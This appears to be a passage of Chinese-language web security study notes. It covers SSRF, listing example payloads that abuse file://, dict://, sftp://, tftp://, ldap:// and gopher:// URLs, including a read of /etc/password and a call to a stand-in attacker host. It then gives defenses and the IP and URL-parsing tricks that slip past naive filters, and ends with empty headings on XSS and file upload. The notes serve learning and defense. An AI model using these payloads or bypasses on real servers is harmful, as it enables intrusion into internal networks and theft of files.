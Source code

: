 接受ua为curl的时候，支持的协议有 [![img](https://camo.githubusercontent.com/f8aaaa140f6d6dab5d160188c330b7bae0768ab6/68747470733a2f2f7777772e73656370756c73652e636f6d2f77702d636f6e74656e742f75706c6f6164732f323031382f30342f31353233353035363435312e706e67)](https://camo.githubusercontent.com/f8aaaa140f6d6dab5d160188c330b7bae0768ab6/68747470733a2f2f7777772e73656370756c73652e636f6d2f77702d636f6e74656e742f75706c6f6164732f323031382f30342f31353233353035363435312e706e67)

使用`curl -v http://xx.com/ssrf.php?url=sxxx`

```
file://
ssrf.php?url=file:///etc/password
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/
SFTP://
ssrf.php?url=sftp://example.com:11111/
TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
```

#### 漏洞修复

>   https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html

1.  检查是否为内网IP地址 绕过方法: 利用八进制IP地址绕过 利用十六进制IP地址绕过 利用十进制的IP地址绕过 利用IP地址的省略写法绕过 最好的做法：IP地址转换为整数再进行判断
2.  获取真正请求的host
    1.  如何正确的获取用户输入的URL的Host？ 最常见的就是，使用http://233.233.233.233@10.0.0.1:8080/、http://10.0.0.1#233.233.233.233这样的URL，让后端认为其Host是233.233.233.233，实际上请求的却是10.0.0.1。这种方法利用的是程序员对URL解析的错误，有很多程序员甚至会用正则去解析URL。使用urllib.parse可以解析真正的hostname
    2.  只要Host只要不是内网IP即可吗？ host可能为ip,可能为域名，利用xip.io绕过。方法：判断是否为http协议，获取url的host，再解析该host，将解析到的ip再进行检查
    3.  只要Host指向的IP不是内网IP即可吗？ 不一定，可能会30x跳转

归纳 解析目标URL，获取其Host 解析Host，获取Host指向的IP地址 检查IP地址是否为内网IP 请求URL 如果有跳转，拿出跳转URL，执行1

### 在浏览器端，Referer可以篡改吗？

通过插件修改，一般抓包修改

### xss盲打到内网服务器的利用

### xss代码层防御

## 文件上传下载遍历漏洞

### 原理

1.  容器漏洞，解析漏洞

### 修复方案
